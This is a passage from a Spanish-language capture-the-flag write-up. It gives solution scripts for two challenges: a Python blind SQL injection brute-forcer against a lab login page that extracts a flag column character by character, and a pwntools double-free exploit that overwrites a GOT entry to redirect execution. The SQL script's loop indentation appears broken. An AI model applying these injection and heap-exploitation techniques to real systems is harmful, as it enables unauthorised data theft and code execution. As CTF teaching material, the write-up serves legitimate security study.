 El nombre nos decia todo, lo unico necesario era realizar una blindSQL, asi que se intentaron un monton de payloads hasta que alguna nos diera como resultado un valor de login exitoso.
una vez se obtiene la payload seaprovecha la devolucion de que es correcta la consulta y proseguimos a usar el nombre de usuario admin que se conoce existe en la DB por el uso de `admin 'AND 1=1'` y se realiza fuerza bruta de el primer elemento en la columna `flag` 

```py
import requests 
import sys 
def blind(query): 
	url = "https://shell.lowbits.io/problem/5558/login.php" 
	response = requests.post(url, data={"username":"admin' " +query+ " -- .","password":"thegame","debug":"1"}) 
	return response 
keyspace = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$^&*()-=+{}' query_left_side = "AND 1=(SELECT 1 FROM users WHERE flag LIKE '" 
flag = "" 
num_of_queries = num_of_true_queries = 0  
while  True: 
	num_of_queries += 1  
	for k in keyspace: 
		query = query_left_side + k + "%')" 				
	response = blind(query) 		
	sys.stdout.write('\rFlag: '+flag+k) 
	if  "Login exitoso"  in response.text:
	 	num_of_true_queries += 1 
	 	query_left_side += k 
	 	flag += k 
	 	break 
print() 
print("flag found!: " + flag)
```

# DoubleFree

> Albert Molano

El nombre nos indica que se cometio una vulnerabilidad DoubleFree, y nos dan un numero al acceder al programa, lo cual asumimos es el buffer, ya con estas 2 cosas la solucion es trivial
```py
from pwn import *

#plantilla pwd
exe = context.binary = ELF('/problems/doublefree_19_d613dee7f78e401c08129ecd95dda677/vuln')

def  start(argv=[], *a, **kw):
	if args.GDB:
		return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
	else:
		return process([exe.path] + argv, *a, **kw)
#ataque
io = start()
io.recvuntil("accidental)\n")
dir=int(io.recvline())
io.sendline("el pepe")
payload = p32(exe.got["exit"] - 12) + p32(dir + 8) + asm('push {};ret;'.format(hex(exe.symbols["win"])))
io.sendlineafter("util...",payload)

print io.recvall()
```
# Simple Buffer Overflow 32
> Felipe parra
